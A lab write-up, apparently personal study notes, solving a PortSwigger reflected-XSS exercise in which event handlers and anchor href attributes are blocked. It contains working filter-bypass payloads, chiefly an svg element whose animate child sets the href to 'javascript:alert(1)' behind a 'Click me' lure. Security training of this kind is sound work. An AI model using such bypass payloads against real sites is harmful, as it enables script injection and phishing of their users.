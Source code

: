 ```yaml
---
title: LAB 0.13
aliases:
  - LAB 0.13
tags:
  - XSS
  - Labs
  - Reflected
  - Expert
description: "Lab: Reflected XSS with event handlers and href attributes blocked"
---
```


 # Lab: Reflected XSS with event handlers and `href` attributes blocked
---
[LAB](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

`<a href="">Click me</a>`

---

## Step 1: Identifying Valid Tags

The first step is to identify which HTML tags are allowed. Using an Burp Suite or manual testing as we have done in [[LAB 0.11#Step 2 Identify Allowed Tags]], you can find a list of valid tags. In this lab, these tags were allowed:

- `<a>`
- `<animate>`
- `<image>`
- `<svg>`
- `<title>`

---

## Step 2: Crafting a Payload

We need to exploit the allowed tags to execute a JavaScript alert. Through experimentation, the following payloads were successful:

### Basic Payloads

1. `<a id="x">Click Me</a>`
2. `<a id="x" tabindex="0">Click Me</a>`

### Using `<svg>` and `<animate>`

Combining `<svg>` and `<animate>`, we crafted this payload:

```html
<svg>
  <rect width="7" height="7" fill="green">
    <animate attributeType="application/javascript" attributeName="alert(1)" from="1" to="0" dur="4s" repeatCount="indefinite" />
  </rect>
</svg>
```

![[images/Pasted image 20250126165118.png]] 

While valid, this method required refinement to make it more practical for phishing users.

---

## Step 3: Combining Tags for a Clickable XSS Vector

To craft a better attack vector:

1. Chain `<svg>`, `<a>`, and `<animate>` together.
2. Use `attributeName="href"` and set its value to `javascript:alert(1)`.
3. Add a `<text>` element for user interaction.

The refined payload:

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

This payload uses the `href` attribute of `<a>` for the JavaScript alert and a clickable label to trick the user.

---

## Step 4: Testing the Payload

Paste the encoded payload into the lab’s search parameter and trigger it by interacting with the "Click me" link. The alert should execute successfully, solving the lab.

![[images/Pasted image 20250126165309.png]]

---
#### Congratulations!

You’ve successfully exploited the vulnerability and solved the lab!
